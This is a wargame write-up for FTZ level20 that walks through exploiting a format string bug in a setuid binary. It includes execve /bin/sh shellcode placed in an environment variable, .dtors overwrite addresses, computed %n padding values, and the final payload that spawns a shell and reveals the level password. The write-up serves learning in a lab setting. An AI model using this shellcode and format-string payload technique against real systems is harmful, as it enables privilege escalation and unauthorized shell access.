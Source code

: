 # Level20 (Final Level)

## This level's goal
- FSB (Format Sting Bug)

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit in fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA
                  
[level20@ftz tmp]$ export EGG=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
[level20@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}
[level20@ftz tmp]$ ./getegg
EGG : 0xbffffc8a
```

__DOTR_List's address is 0x08049594, and __DOTR_END is __DOTR_LIST + 4bytes = 0x08049598, which I will exploit with this.

I made the env variable of EGG(shell code) and then made and run getegg.c (to get EGG's address).

The attack code format   
`"AAAAAddress1BBBBAddress2%8x%8x%8x%Value1c%n%Value2c%n"`

Address1 = 0x08049598   
Address2 = 0x0804959A (Address1+2)   
Value1   = 64650(fc8a) - 40 = 64610   
Value2   = 114687(1bfff) - 64650 = 50037

```
[level20@ftz level20]$ (python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%64610c%n%50037c%n"';cat) | ./attackme 

id
uid=3101(clear) gid=3100(level20) groups=3100(level20)

my-pass
clear Password is "i will come in a minute".
```


